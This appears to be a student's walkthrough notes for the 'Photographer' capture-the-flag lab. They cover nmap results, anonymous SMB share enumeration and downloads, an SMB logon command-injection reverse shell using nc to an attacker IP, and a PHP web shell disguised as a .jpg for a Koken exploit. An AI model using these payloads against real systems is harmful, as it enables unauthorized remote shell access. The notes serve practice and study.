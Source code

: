 # Photographer lab - Notes

## Target Details
```
http://192.168.119.76/
```

## Nmap Scanning 
```
Host is up (0.22s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8000/tcp open  http-alt
```

## Attacking smb client
```
https://docs.centrify.com/Content/zint-samba/ConfigurationUNIXAccess.htm


Connecting to the SMB ip address

smbclient -N -L //192.168.119.76
-L  listing the shares present
-N  accessing without password


Using smb map
smbmap -H "ipaddrr"
```

Samba shares present
```

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER

```

Accessing a particular samba share
```
smbclient -N //ip/sharename
smbclient -N //192.168.119.76/sambashare
```

Files found
```
  mailsent.txt                    
  wordpress.bkp.zip       
```

Downloading files from smb
```
get filename.txt
get mailsent.txt
```


smb reverseshell
```
logon “/=`nc 192.168.49.119 4444 -e /bin/bash`"
nc -vvlp 4444
```


Exploiting koken
```
https://www.exploit-db.com/exploits/48706
echo "<?php system(\$_GET['cmd']);?>" > image.php.jpg
```